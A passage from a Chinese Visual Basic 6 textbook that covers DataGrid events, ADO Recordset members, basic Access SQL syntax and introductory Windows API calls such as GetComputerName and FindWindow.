```

参数 index 是整数，用来标识控件数组中的控件。colindex 是用来标识列的整数。

### c) BeforeColEdit 事件和 BeforeColUpdate 事件

在键入字符而进入编辑模式之前会出现 BeforeColEdit 事件。在一个单元内编辑完成之后，而数据从单元移到 DataGrid 控件复制缓冲区之前会触发 BeforeColUpdate 事件。事件处理过程为：

```vb
Private Sub DataGrid控件名_BeforeColEdit([index As Integer,] ByVal colindex As Integer, ByVal keyascii As Integer, cancel As Integer)
Private Sub DataGrid控件名_BeforeColUpdate([index As Integer,] colindex As Integer, oldValue As Variant, cancel As Integer)
```

参数 Index 是整数，标识控件数组中的一个控件。参数 colindex 也是整数，标识已编辑过的列。参数 keyascii 同样是整数，对于用户为启动编辑而键入的字符，它表示这些字符的 ANSI 键码；如果用户通过单击鼠标启动编辑，则其值为 0。KeyAscii 按值而不是按地址传递，所以不能通过改变其值来使用不同字符启动编辑。参数 cancel 为整数，可将其设置为 True，以防止用户编辑该单元。参数 oldValue 包含单元格变化之前的值。

### d) BeforeDelete 事件、BeforeInsert 事件和 BeforeUpdate 事件

BeforeDelete 事件发生在 DataGrid 控件中选定记录被删除之前。BeforeInsert 事件出现在向 DataGrid 控件中插入一条记录之前。BeforeUpdate 事件发生在数据从 DataGrid 控件移动到控件复制缓冲区之前。它们的事件处理过程为：

```vb
Private Sub DataGrid控件名_BeforeDelete([index As Integer,] cancel As Integer)
Private Sub DataGrid控件名_BeforeInsert([index As Integer,] cancel As Integer)
Private Sub DataGrid控件名_BeforeUpdate([index As Integer,] cancel As Integer)
```

参数 index 是整数，用来标识控件数组中的一个控件。参数 cancel 是一个布尔表达式，指出是否复制数据。其设置值如下表所示：

| 设置 | 描述 |
|---|---|
| True | 保持焦点在该控件，不复制数据。 |
| False | （缺省）继续复制操作，并使焦点能够改变。 |

图4-29 控件的基本布局

图4-30 选择使用连接字符串

### e）ColEdit 事件

在键入字符、使单元第一次进入编辑模式时出现该事件。它的事件处理过程为：`Private Sub object_ColEdit([index As Integer,] ByVal colindex As Integer)`。参数 Index 用于标识控件数组中的一个控件。参数 colindex 是整数，标识被编辑过的列。

图4-31 选择“Microsoft Jet 4.0 OLE DB Provider”

### f）Error 事件

该事件由于数据访问错误而出现，而在没有执行 Visual Basic 代码时就会产生这个错误。它的事件处理过程是：`Private Sub DataGrid控件名_Error([index As Integer,] ByVal dataerror As Integer, response As Integer)`。参数 Index 为整数，标识控件数组中的一个控件。参数 dataerror 也是整数，标识已出现的错误。参数 response 同样是整数，当其设置成 0 时不显示错误消息，设置成 1 时显示与错误关联的消息，缺省值是 1。

图4-32 输入数据库名称

### 4.5.4 DataGrid 控件使用示例

我们简单示例 DataGrid 控件的使用方法。新建一个工程，在工程中绘制一个 ADO Data 控件（Adodc1）和一个 DataGrid 控件（DataGrid1）。控件的基本布局如图 4-29 所示。

然后，我们来设置 ADO Data 控件的属性以连接到数据库。在窗体中选中 Adodc1，右键选择“ADODC Properties”选项，设置 ADO Data 控件的各项属性。首先生成好 Connection String，选择使用连接字符串，如图 4-30 所示。

单击“Build”按钮，在“选择您希望连接的数据”中，选择“Microsoft Jet 4.0 OLE DB Provider”，如图 4-31 所示。

在“选择或输入数据库名称”选项中，我们直接输入 db1.mdb，如图 4-32 所示。我们单击“确定”按钮，就设置好了连接字符串。接着设置属性页中的“RecordSource”选项，如图 4-33 所示。

图4-33 设置 RecordSource 选项

我们设置 CommandType 为 2，即 adCmdTable，设置 Table or Stored Procedure Name 为 Admin 表。设置完毕，单击“确定”按钮。然后，在窗体中选中 DataGrid 控件，设置它的 DataSource 属性为“Adodc1”，这样，就可以将 DataGrid 控件与 Adodc1 中的 Recordset 对象绑定了，如图 4-34 所示。

图4-34 设置 DataGrid1 的 DataSource 属性为“Adodc1”

在 DataGrid 控件上单击右键，在弹出的右键菜单中，选择“检索字段”，如图 4-35 所示。

图4-35 检索字段

这样，就可以检索出表中的字段信息。默认情况下，DataGrid 控件是不允许添加和删除记录的。如果要允许添加和删除记录，请设置 AllowAddNew 属性和 AllowDelete 属性为 True。我们将它们都设置成 True，运行程序，如图 4-36 所示。

图4-36 程序运行结果

此时，如果我们要删除某条记录，则可以选中该行，然后按下 Delete 键。这个简单的示例到此结束。接下来是十分重要的一些基础知识：ADO Recordset 对象和 SQL 语法基础。

## 4.6 ADO Recordset 对象

ADO Recordset 对象用于容纳一个来自数据库表的记录集。一个 Recordset 对象由记录和列（字段）组成。在 ADO 中，此对象是最重要且最常用于对数据库的数据进行操作的对象。首次打开一个 Recordset 时，当前记录指针将指向第一个记录，同时 BOF 和 EOF 属性为 False；如果没有记录，BOF 和 EOF 属性为 True。Recordset 对象能够支持两种更新类型：

- 立即更新——一旦调用 Update 方法，所有更改被立即写入数据库。
- 批更新——Provider 将缓存多个更改，然后使用 UpdateBatch 方法把这些更改传送到数据库。

### 4.6.1 ADO Recordset 对象的属性

在下面的表格中，我们列出了 Recordset 对象的各种属性值，供大家不清楚的时候查阅。

| 属性名 | 描述 |
|---|---|
| AbsolutePage | 设置或返回一个可指定 Recordset 对象中页码的值。 |
| AbsolutePosition | 设置或返回一个值，此值可指定 Recordset 对象中当前记录的顺序位置（序号位置）。 |
| ActiveCommand | 返回与 Recordset 对象相关联的 Command 对象。 |
| ActiveConnection | 如果连接被关闭，设置或返回连接的定义；如果连接打开，设置或返回当前的 Connection 对象。 |
| BOF | 如果当前记录位置在第一条记录之前，则返回 true，否则返回 false。 |
| Bookmark | 设置或返回一个书签，此书签保存当前记录的位置。 |
| CacheSize | 设置或返回能够被缓存的记录的数目。 |
| CursorLocation | 设置或返回游标服务的位置。 |
| CursorType | 设置或返回一个 Recordset 对象的游标类型。 |
| DataMember | 设置或返回要从 DataSource 属性所引用的对象中检索的数据成员名称。 |
| DataSource | 指定一个包含要被表示为 Recordset 对象的数据的对象。 |
| EditMode | 返回当前记录的编辑状态。 |
| EOF | 如果当前记录的位置在最后的记录之后，则返回 true，否则返回 false。 |
| Filter | 返回一个针对 Recordset 对象中数据的过滤器。 |
| Index | 设置或返回 Recordset 对象的当前索引的名称。 |
| LockType | 设置或返回当编辑 Recordset 中的一条记录时，可指定锁定类型的值。 |
| MarshalOptions | 设置或返回一个值，此值指定哪些记录被返回服务器。 |
| MaxRecords | 设置或返回从一个查询返回 Recordset 对象的最大记录数目。 |
| PageCount | 返回一个 Recordset 对象中的数据项数。 |
| PageSize | 设置或返回 Recordset 对象的一个单一页面上所允许的最大记录数。 |
| RecordCount | 返回一个 Recordset 对象中的记录数目。 |
| Sort | 设置或返回一个或多个作为 Recordset 排序基准的字段名。 |
| Source | 设置一个字符串值或一个 Command 对象引用，或返回一个字符串值，此值可指示 Recordset 对象的数据源。 |
| State | 返回一个值，此值可描述 Recordset 对象是否打开、关闭、正在连接、正在执行或正在取回数据。 |
| Status | 返回有关批更新或其他大量操作的当前记录的状态。 |
| StayInSync | 设置或返回当父记录位置改变时对子记录的引用是否改变。 |

### 4.6.2 ADO Recordset 对象的方法

下面的表格中，我们列出了 Recordset 对象的诸多方法供大家参考。

| 方法名 | 描述 |
|---|---|
| AddNew | 创建一条新记录。 |
| Cancel | 撤销一次执行。 |
| CancelBatch | 撤销一次批更新。 |
| CancelUpdate | 撤销对 Recordset 对象的一条记录所做的更改。 |
| Clone | 创建一个已有 Recordset 的副本。 |
| Close | 关闭一个 Recordset。 |
| CompareBookmarks | 比较两个书签。 |
| Delete | 删除一条记录或一组记录。 |
| Find | 搜索一个 Recordset 中满足指定某个条件的一条记录。 |
| GetRows | 把多条记录从一个 Recordset 对象中拷贝到一个二维数组中。 |
| GetString | 将 Recordset 作为字符串返回。 |
| Move | 在 Recordset 对象中移动记录指针。 |
| MoveFirst | 把记录指针移动到第一条记录。 |
| MoveLast | 把记录指针移动到最后一条记录。 |
| MoveNext | 把记录指针移动到下一条记录。 |
| MovePrevious | 把记录指针移动到上一条记录。 |
| NextRecordset | 通过执行一系列命令清除当前 Recordset 对象并返回下一个 Recordset。 |
| Open | 打开一个数据库元素，此元素可提供对表的记录、查询的结果或保存的 Recordset 的访问。 |
| Requery | 通过重新执行对象所基于的查询来更新 Recordset 对象中的数据。 |
| Resync | 从原始数据库刷新当前 Recordset 中的数据。 |
| Save | 把 Recordset 对象保存到 file 或 Stream 对象中。 |
| Seek | 搜索 Recordset 的索引以快速定位与指定的值相匹配的行，并使其成为当前行。 |
| Supports | 返回一个布尔值，此值可定义 Recordset 对象是否支持特定类型的功能。 |
| Update | 保存所有对 Recordset 对象中的一条单一记录所做的更改。 |
| UpdateBatch | 把所有 Recordset 中的更改存入数据库。请在批更新模式中使用。 |

### 4.6.3 ADO Recordset 对象的事件

Recordset 对象的事件请参考下面的表格：

| 事件名 | 描述 |
|---|---|
| EndOfRecordset | 当试图移动到超过 Recordset 结尾的行时被触发。 |
| FetchComplete | 当异步操作中的所有记录均被读取后被触发。 |
| FetchProgress | 在异步操作期间被定期地触发，报告已读取多少记录。 |
| FieldChangeComplete | Field 对象的值更改后被触发。 |
| MoveComplete | Recordset 中的当前位置更改后被触发。 |
| RecordChangeComplete | 一条记录更改之后被触发。 |
| RecordsetChangeComplete | 在 Recordset 更改之后被触发。 |
| WillChangeField | 在 Field 对象的值更改之前被触发。 |
| WillChangeRecord | 在一条记录更改之前被触发。 |
| WillChangeRecordset | 在 Recordset 更改之前被触发。 |
| WillMove | 在 Recordset 中的当前位置更改之前被触发。 |

Recordset 对象的编程是 VB 数据库编程中最重要的组成部分，请读者朋友们能够熟练掌握。

## 4.7 SQL语法介绍

前面我们使用过简单的 SQL 语句，事实上，要对数据库进行诸多操作，以及进行多条件的查询，都是需要使用 SQL 语句的。它是数据库编程的一个重要基础。本节中介绍一些最常用的 SQL 语句。

### 4.7.1 SELECT 语句

Select 语句的作用是从数据表中筛选记录和列。例如，在我们建立的 Admin 表中查询所有的列和所有的记录，就可以使用：`select * from admin`。这里的星号是多字符的通配符，也就可以查询到 Admin 表中的所有列对应的所有记录。使用 ADO Data 控件建立对数据库的连接，然后在窗体载入事件中添加代码：

```vb
Private Sub Form_Load()
    '设置连接字符串
    Adodc1.ConnectionString = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & App.Path & "\db1.mdb"
    '设置 CommandType 为 adCmdText
    Adodc1.CommandType = adCmdText
    '设置 SQL 语句
    Adodc1.RecordSource = "select * from admin"
    Adodc1.Refresh                 '强制刷新 ADO Data 控件
    While Not Adodc1.Recordset.EOF '循环添加 Username 的值到 List1 中
        List1.AddItem Adodc1.Recordset.Fields("username").Value
        Adodc1.Recordset.MoveNext
    Wend
End Sub
```

上面的代码运行结果如图 4-37 所示。在 Select 语句当中我们还可以附加筛选条件，使用关键词 where 连接即可。例如，我们需要查询 Admin 表中 ID 值为 1 的用户，就可以使用：`select * from admin where id=1`，运行后的结果如图 4-38 所示。当然了，我们也可以只查询 Admin 表中的 Password 字段，使用 `select password from admin`。Select 就是筛选的意思，该语句从 Admin 表中筛选出 Password 字段的所有数据。

## 4.7.2 Where 语句

Where 语句是用于在查询表中记录时添加筛选条件。多个筛选条件之间，可以使用 and 连接。例如，下面是一张数据表 Admin：

| Id | UserName | Password |
|---|---|---|
| 1 | Admin | Admin |
| 2 | NoHack | NoHack |
| 3 | Lijiejie | lijiejie |

假如我们要从上面的 Admin 表中查找 ID>=2 的记录，可以使用 SQL 语句 `select * from admin where id>=2`。查询的结果是下面的记录集：

| Id | UserName | Password |
|---|---|---|
| 2 | NoHack | NoHack |
| 3 | Lijiejie | lijiejie |

## 4.7.3 In 语句

In 子句可以查询我们指定的值对应的几条记录，它的基本形式是：`SELECT 字段名 FROM 表名 WHERE 字段名 IN ('值一','值二', ...)`。例如，我们需要返回一个两条记录的记录集，UserName 分别是 Admin 和 Lijiejie，就可以使用 `select * from admin where username in ('admin','lijiejie')`。查询到的最终结果就是 admin 和 lijiejie 对应的两条记录了。如果指定的值不存在，则不会返回该记录。

### 4.7.4 BETWEEN 语句

Between 语句可以让我们返回指定范围内的记录。它的基本形式是：`SELECT 字段名 FROM 表名 WHERE 字段名 BETWEEN '值一' AND '值二'`。例如，下面的语句可以返回 Admin 表中 ID 值在 1 到 4 之间的所有记录：`select * from admin where id between 1 and 4`。

## 4.7.5 Like 语句

Like 语句是用于匹配关键字的。当我们通过关键字查询时，都需要使用到 Like 子句。匹配表达式请参考下面的内容：

- 形式一：`A_Z`
  - 它表示所有以 `A` 起头、中间有一个字符，且以 `Z` 为结尾的字符串。`ABZ` 和 `A2Z` 都符合这个表达式，而 `AKKZ` 并不符合，因为在 A 和 Z 之间有两个字符，而不是一个字符。
- 形式二：`ABC%`
  - 所有以 `ABC` 起头的字符串。举例来说，`ABCD` 和 `ABCABC` 都符合这个表达式。
- 形式三：`%XYZ`
  - 所有以 `XYZ` 结尾的字符串。举例来说，`WXYZ` 和 `ZZXYZ` 都符合这个表达式。
- 形式四：`%AN%`
  - 所有含有 `AN` 的字符串。举例来说，`LOS ANGELES` 和 `SAN FRANCISCO` 都符合这个表达式。

介绍完匹配表达式，我们来看看 Like 语句的基本形式：`SELECT 字段名 FROM 表名 WHERE 字段名 LIKE 匹配表达式`。例如，我们要从 Admin 表中查询所有 UserName 中包含“li”的记录，就可以使用下面的 SQL 语句：`select * from admin where username like '%li%'`。请读者朋友们注意，一定不要忘记了 li 两边的单引号。

### 4.7.6 ORDER BY 语句

ORDER BY 语句用于排列查询所得记录的顺序。可以是由小往大排列（ascending），也可以是由大往小排列（descending）。基本形式是：`SELECT 字段名 FROM 表名 [WHERE "条件"] ORDER BY 字段名 [ASC, DESC]`。ASC 代表结果会以由小往大的顺序列出，而 DESC 代表结果会以由大往小的顺序列出。例如，我们需要将 Admin 中的所有记录按 ID 值由大往小排列，则可以使用语句 `select * from admin order by id desc`。

## 4.7.7 Create Table 语句

Create Table 语句用于创建数据表。我们可以在创建的时候规定字段名和字段类型，它的基本形式是：`CREATE TABLE 表名 (字段1 字段类型, 字段2 字段类型 ...)`。下面的例子可以创建一个 Nohack 表，字段 ID 为自动编号类型，而字段 Hacker 为字符串类型：`create table Nohack(id autoincrement,hacker char(15))`。

> 提示：Autoincrement 为自动编号类型，而 Char(15) 表明为长度为 15 的字符串。

## 4.7.8 Alter Table 语句

Alter Table 语句用于改变表的结构。常用的修改有：加一个字段、删去一个字段、改变字段名称和改变字段的数据类型。Alter Table 语句的基本形式是：`ALTER TABLE 表名 [改变方式]`。

- 如果要向 Admin 表中增加字段 `dj`，类型是一位的字符串，那么可以使用如下语句：`ALTER TABLE admin ADD dj CHAR(1)`。这里改变方式就是 `ADD 字段名 类型`。
- 如果要修改 Admin 中的字段 `dj` 的类型为长度 10 的字符串，则可以使用下面的语句：`ALTER TABLE admin ALTER dj CHAR(10)`。它的基本形式是：`ALTER TABLE 表名 ALTER 列名 类型`。
- 如果要删除某个字段，可以使用下面的语句：`ALTER TABLE 表名 DROP 字段`。例如，我们要删除 Admin 表中的 `dj` 字段，就可以使用语句：`ALTER TABLE admin DROP dj`。

## 4.7.9 Drop Table 语句

该语句用于删除数据库中的一个表，它的基本形式是：`DROP TABLE 表名`。例如，我们需要删除 Nohack 表，就可以使用下面的语句：`DROP TABLE Nohack`。

## 4.7.10 Insert Into 语句

Insert Into 语句用于向表中写入记录。它的基本形式是：`INSERT INTO 表名 (字段1, 字段2, ...) VALUES (值1, 值2, ...)`。

例如，我们需要向 Admin 表中插入一条 `UserName` 为 `test`、`password` 也为 `test` 的记录，就可以使用下面的语句：`INSERT INTO admin (username, [password]) VALUES ('test', 'test')`。这里请大家注意 `password` 都是用 `[]` 包围起来的，因为 `Password` 在 SQL 命令当中是关键字。当然，对于其他的字符，为了避免出错，我们同样可以使用 `[]` 括起来。上面的语句也可以写成：`INSERT INTO admin ([username], [password]) VALUES ('test', 'test')`。

## 4.7.11 Update 语句

Update 语句用于更新数据库中的记录，它的基本形式是：`UPDATE 表名 SET 字段名 = [新值] WHERE {条件}`。

例如，我们需要更新 Admin 表中 ID 为 1 的这条记录 `Password` 的值为 `newpass`，就可以使用下面的语句：`UPDATE admin SET [password]='newpass' WHERE id=1`。如果我们要修改密码的同时也修改用户名，例如修改用户名为 `NewAdmin`，就可以使用下面的语句：`UPDATE admin SET [username]='NewAdmin', [password]='newpass' WHERE id=1`。

## 4.7.12 Delete 语句

Delete 语句用于从数据库中删除记录。它的基本形式是：`DELETE FROM 表名 WHERE {条件}`。例如，我们需要删除 ID 大于等于 6 的所有记录，就可以使用：`DELETE FROM admin WHERE id>=6`。

## 4.8 本章小结

到此，我们对数据库方面的内容就介绍完了。本书只对 ACCESS 数据库操作做了简单说明，但事实上，如果我们要对数据库方面的内容做更多了解，还可以学习 MSSQL、MYSQL、Oracle 等中型和大型数据库。如果读者朋友们对数据库感兴趣，请参阅相关资料。

## 第五章 API编程


## 5.1 引言

在一些情况下，仅仅使用控件和 VB 的内部函数进行编程会遇到困难，例如，用户想要获取本机的进程列表、本机的用户列表，或者想要编写一个程序来关闭计算机等。此时，使用 API 函数可以解决问题。了解完 API 函数，我们可以利用 VB 编写出更实用、更加强大的程序。

## 5.2 API 函数简介

API 是 Application Programming Interface 的缩写，指的是应用程序编程接口。Windows API 是一套用来控制 Windows 的各个部件的外观和行为的预先定义的 Windows 函数。用户的每个动作都会引发一个或多个函数的运行，以告诉 Windows 发生了什么。总的来讲，API 就是 Windows 内部的一些函数，它可以提供我们对操作系统各个部分的访问，也可以对操作系统进行诸多的操作，而又无需了解源码或理解内部工作机制的细节。

## 5.3 API 函数的使用方法

API 函数的使用方式跟我们平时使用的函数一样，例如 Mid 函数、Left 函数、LCase 函数、Trim 函数等。但需要注意的是，在使用 API 函数之前，我们必须对 API 函数进行声明。API 函数的声明使用 Declare 语句，它的基本形式是：

```vb
第一种形式: [Public | Private] Declare Sub name Lib "libname" [Alias "aliasname"] [([arglist])]
第二种形式: [Public | Private] Declare Function name Lib "libname" [Alias "aliasname"] [([arglist])] [As type]
```

上面两种形式的声明，第一种形式声明的是 Sub 过程，而第二种形式声明 Function 函数，它们的区别仅在于此。下面对 Declare 语句中的各个子句的功能做介绍：

| 部分 | 描述 |
|---|---|
| Public | 可选的。用于说明在程序的其他所有地方都可以使用该函数。 |
| Private | 可选的。用于说明只能在包含该 Declare 声明的窗体或模块中使用该函数。 |
| Sub | 可选的（但 Sub 或 Function 二者需选其一）。表示该过程没有返回值。 |
| Function | 可选的（但 Sub 或 Function 二者需选其一）。表示该过程会返回一个值。 |
| name | 必需的。任何合法的 API 函数名。 |
| Lib | 必需的。指明包含所声明过程的动态链接库（DLL）。所有 API 函数声明都需要 Lib 子句。 |
| libname | 必需的。动态链接库文件的路径和名称。 |
| Alias | 可选的。表示被调用的 API 函数在动态链接库（DLL）中还有另外的名称（别名）；当 API 函数名与某个关键字重名，或过程中的某个字符不符合命名约定时可使用。 |
| aliasname | 可选的。API 函数的别名。 |
| arglist | 可选的。代表调用该过程时需要传递的若干参数。 |

`type` 可选的。Function 过程返回值的数据类型，可以是 Byte、布尔、Integer、Long、Currency、Single、Double、Date、String（只支持变长）或 Variant、用户定义类型，或对象类型。

### 下面来看一个 API 函数声明的例子：

```vb
Private Declare Function Beep Lib "kernel32" (ByVal dwFreq As Long, ByVal dwDuration As Long) As Long
```

这里 Private 表明 Beep 函数的作用范围是声明函数的模块或者声明这个函数的窗体。它是一个 Function 函数，有返回值。

Kernel32.DLL 是动态链接库的名称，它省略了扩展名 DLL，此处写作 Kernel32。而且这里动态链接库文件省略了具体的路径，对于省略的动态链接库路径，程序会首先在 `%windir%\System32` 文件夹中寻找，如果找不到，接着在程序所在的目录寻找。因为 Kernel32.DLL 文件在 `%windir%\System32` 文件夹下，所以我们可以省略不写完整路径。如果我们要写完整的路径和名称，就应该用这样的声明：

```vb
Private Declare Function Beep Lib "C:\Windows\system32\kernel32.DLL" (ByVal dwFreq As Long, ByVal dwDuration As Long) As Long
```


当然了，这里 System32 文件夹不一定在 C 盘，根据你的系统磁盘不同是有所差别的。

在声明中，`ByVal dwFreq As Long`、`ByVal dwDuration As Long` 表明函数有两个参数，分别是 dwFreq 和 dwDuration，它们都是长整型的。函数的返回值是一个 Long 类型的整数。

有了上面的声明，我们就可以在程序中使用这个 Beep 函数了，该函数的作用是利用系统喇叭发出声音。

Windows 提供了非常多的 API 函数，难道每一个函数的声明我们都需要记住吗？当然不是。对于这么多的 API 函数声明，VB6.0 自带了 API 浏览器——API Viewer，可以使用它来查看各个 API 函数的声明，并可以复制这些声明到程序当中。


在开始菜单中找到“Microsoft Visual Basic 6.0 中文版”下的“Microsoft Visual Basic 6.0 中文版工具”，单击“API 文本浏览器”，就可以打开 API 浏览器了，如图 5-1 所示。

API 浏览器的视图如图 5-2 所示。

在查询一个函数之前，需要加载文本或数据库到浏览器，具体的做法是，选择 API 浏览器中的“文件”菜单下的“加载文本文件”，如图 5-3 所示。


再选择“WIN32API.TXT”，如图 5-4 所示，这样就可以把文件中数据加载到浏览器中。加载完毕之后“可用项”中就会列出所有的 API 函数名，如图 5-5 所示。

在“声明范围”选项中选择合适的范围，再双击一个可用项，就会在下面的“选定项”中列出对应 API 函数的声明。此时，单击“复制”按钮，就可以把 API 函数声明复制到剪贴板了，接着在代码编辑窗口中单击“粘贴”即可。


当读者朋友们对 API 函数的了解更加深入的时候，就会发现，API 函数的使用跟其他函数一样方便。

API 函数的声明可以写在窗体的通用部分（以 Private 声明），也可以在模块中（以 Public 声明）。怎么新建一个模块呢？在 VB 菜单栏中选择“工程”菜单下的“添加模块”，在出现的对话框中，选择“打开”即可，如图 5-6 所示。

新建模块之后，就可以在模块中粘贴 API 函数的声明了。下面我们就来展示 API 函数的使用。


## 5.4 API函数使用示例

笔者选取了若干 API 函数，为读者朋友介绍它们的用法。熟悉这些 API 函数的使用方法，可以为我们了解和学习其他函数打下基础，也可以帮助我们在编程中提高程序的性能。

### 5.4.1 GetComputerName函数——获取计算机名

使用 GetComputerName 函数可以获取本机的计算机名，它的 API 函数声明是：

```vb
Declare Function GetComputerName Lib "kernel32" Alias "GetComputerNameA" (ByVal lpBuffer As String, nSize As Long) As Long
```

其中动态库为 Kernel32.dll 文件，函数的别名是 GetComputerNameA。函数有两个参数：lpBuffer 和 nSize。这两个参数的功能分别是：

| 参数 | 类型及说明 |
|---|---|
| lpBuffer | String 类型的字符串，用于在缓冲区中存储计算机名 |
| nSize | Long，缓冲区的长度。如果我们为 nSize 分配的长度比计算机名的实际长度要小，那么此参数返回实际长度。 |

我们新建一个工程，在窗体的通用部分做如下声明：

```vb
Private Declare Function GetComputerName Lib "kernel32" Alias "GetComputerNameA" (ByVal lpBuffer As String, nSize As Long) As Long
```


上面的示例中，因为是在窗体中声明，所以必须用 Private 来声明，默认情况下是以 Public 进行 API 函数声明的。

在窗体的载入事件中添加如下代码：

```vb
Private Sub Form_Load()
    Dim Cname As String * 50          ' 声明一个定长字符串 Cname，长度为 50
    GetComputerName Cname, 50         ' 返回计算机名到变量 Cname 中
    Form1.Caption = Left(Cname, InStr(Cname, Chr(0)))  ' 返回计算机名到窗体的标题
End Sub
```

运行上面的代码，如图 5-7 所示，成功返回了计算机名。

上面的代码中预先定义了 Cname 的长度为 50，通常我们的计算机名不会达到那么长。当然了，你也可以把它定义为 100 或更长，例如 255。默认的，这 50 位都是以 Chr(0) 来填充的，使用 `GetComputerName Cname,50` 返回计算机名到 Cname 中后，前面的字符串被计算机名称填充，而后面剩下的字符串依然是 Chr(0)。因此只需要取 Cname 字符串的前半部分返回 Form1 的 Caption 中。使用 `InStr(Cname, Chr(0))` 可以得到 Cname 中第一个 Chr(0) 的位置，然后使用 Left 函数取出左边的字符串即可得到正确的计算机名称了。

使用 API 函数是不是也很简单？请读者朋友们在编码时一定要注意使用 API 浏览器，它是一个非常重要的工具。

### 5.4.2 GetUserName 函数——获取系统当前登录的用户名

该函数用于返回系统当前登录用户的名字。它的 API 函数声明是：

```vb
Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" (ByVal lpBuffer As String, nSize As Long) As Long
```

函数有两个参数，功能分别是：

| 参数 | 类型及说明 |
|---|---|
| lpBuffer | String，一个字符串缓冲区，它将用于容纳用户名 |
| nSize | Long，初始化成 lpBuffer 的长度。使用函数返回以后，它会包含载入 lpBuffer 的字符的具体数量 |

这里的两个参数作用跟 GetComputerName 函数中的两个参数类似。函数有一个返回值，为长整型。它的意义是：TRUE（非零）表示成功，否则返回零。如果函数返回非 0，则表明函数调用成功了，否则函数调用失败。我们新建一个工程，在窗体的通用部分进行 API 函数声明：

```vb
Private Declare Function GetUserName Lib "advapi32.dll" Alias "GetUserNameA" _
(ByVal lpBuffer As String, nSize As Long) As Long
```

然后，在窗体的加载事件中添加如下代码：

```vb
Private Sub Form_Load()
    Dim UserName As String * 50
    GetUserName UserName, 50
    Form1.Caption = Left(UserName, InStr(UserName, Chr(0)))
End Sub
```


图 5-8 返回当前系统用户名

运行上面的代码，效果如图 5-8 所示。

在以上代码中，我们首先预定义了一个长度为 50 的字符串 UserName，它初始全部以 Chr(0) 填充。使用 `GetUserName UserName,50` 返回用户名后，UserName 的前面部分以用户名填充，而后面剩余部分是以 Chr(0) 填充的，因此，程序使用 `InStr(UserName, Chr(0))` 来返回第一个 Chr(0) 所在的位置，最后使用 Left 函数截取出当前用户的名称。

该函数的使用方法与 GetComputerName 类似。它们都是最简单的 API 函数之一。

### 5.4.3 GetWindowText 函数——获取窗体标题或控件内容

该函数用于获取指定窗体的标题或者指定控件中的文本内容。在 VB 里使用，可获取窗体或控件的 Caption 或 Text 属性。它的函数声明是：

```vb
Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
```

可以看出，函数中有 3 个参数，作用分别是：

| 参数 | 类型及说明 |
|---|---|
| hwnd | Long，欲获取文字内容的那个窗口的句柄 |

| 参数 | 类型及说明 |
|---|---|
| lpString | String，预定义的一个缓冲区，至少有 cch+1 个字符大小，随同窗口文字载入 |
| cch | Long，lpString 缓冲区的长度 |

问：什么是句柄？

答：句柄是使用 API 函数时经常会遇到的一个概念。它指的是在操作系统中唯一标识某个对象的正数，为长整型，我们表示句柄使用字符串“hwnd”。

好了，我们来示例使用 GetWindowText 函数获取窗体中控件 Text1 内的文本。以前，我们简单使用 TextBox 的 Text 属性就可以返回文本框中的内容了。这里通过 API 函数获取。新建一个工程，在窗体中添加一个 TextBox，Text 属性设置成“VB 黑客编程”。在窗体的通用部分进行如下声明：

```vb
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
```

然后，在窗体载入事件中添加如下代码：

```vb
Private Sub Form_Load()
    Dim Mytext As String * 100            ' 预定义一个字符串，大小为100
    GetWindowText Text1.hwnd, Mytext, 100 ' 返回 Text1 中的内容到 MyText 字符串
    Me.Caption = Left(Mytext, InStr(Mytext, Chr(0))) ' 返回 Text1 中的准确值到程序标题
End Sub
```

上面的代码运行后如图 5-9 所示，程序成功返回了文本框中内容到窗口标题中。上面的代码中，我们预先定义一个定长字符串，用于存储返回控件中的文本，它初始以 Chr(0) 填充。使用函数返回了控件中的文本之后，它的前部由控件文本填充，而后面的剩余部分仍然由 Chr(0) 填充。因此可以使用 InStr(Mytext, Chr(0)) 返回第一个 Chr(0) 所在的位置，然后使用 Left 函数截取出控件中的文本内容，并返回到窗口标题中。

从上面的程序可以看到，使用 API 函数进行编程是非常简单的，此处只有几行代码而已。读者朋友对 API 函数的学习只需一个熟悉的过程，并不需要畏惧它，不要看到它有一长串的声明就退缩了。

这个示例是获取窗体 TextBox 控件中的文本，其实还可以获取其他程序窗体中的文本，例如，知道了其他程序的句柄（如 IE 浏览器），我们就可以获取这个程序的窗口标题。当然，我们现在还没有介绍如何获取其他应用程序的句柄，这在后面将会介绍到。

### 5.4.4 FindWindow 函数——查找指定的程序窗体

FindWindow 函数用于寻找第一个符合指定标题的顶级窗口，并返回窗口的句柄。在获取一个窗口的句柄之后，我们就可以对这个窗口进行许多操作，例如，发送消息（发送 Windows 消息将窗口关闭、最大化、最小化等）。它的 API 函数声明是：

```vb
Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

这里对参数和函数返回值做一下说明：

| 参数 | 类型及说明 |
|---|---|
| lpClassName | String，指向包含了窗口类名的空终止（C 语言）字串的指针；或设为零，表示接收任何类 |
| lpWindowName | String，指向包含了窗口文本（或标签）的空终止（C 语言）字串的指针；或设为零，表示接收任何窗口标题 |

返回值为 Long，返回所找到窗口的句柄。如未找到对应的窗口，则返回零。上面的说明涉及到了 C 语言中的“空终止字串”等信息，我们可以暂不深究，看怎样来使用该函数。

新建一个工程，在窗体的通用部分添加下面的声明：

```vb
Private Declare Function FindWindow Lib "user32" Alias "FindWindowA" (ByVal lpClassName As String, ByVal lpWindowName As String) As Long
```

然后，我们来使用 FindWindow 函数查找“迅雷5”的窗口，并返回窗口的句柄，如果返回成功，则可以得到窗口的句柄，否则函数返回 0。在窗体载入事件中添加下面的代码：

```vb
Private Sub Form_Load()
    Dim thunderhwnd As Long                 ' 用于保存函数返回值的变量
    ' 尝试找到包含“迅雷5”的顶级窗口
    thunderhwnd = FindWindow(VBNullString, "迅雷5")
    MsgBox thunderhwnd                      ' 提示函数的返回值
    If thunderhwnd <> 0 Then                ' 如果返回值非0，表明返回成功
        MsgBox "迅雷5正在运行中...."
    Else                                    ' 如果返回0，则没有找到对应的窗口
        MsgBox "没有找到迅雷5的窗口"
    End If
End Sub
```

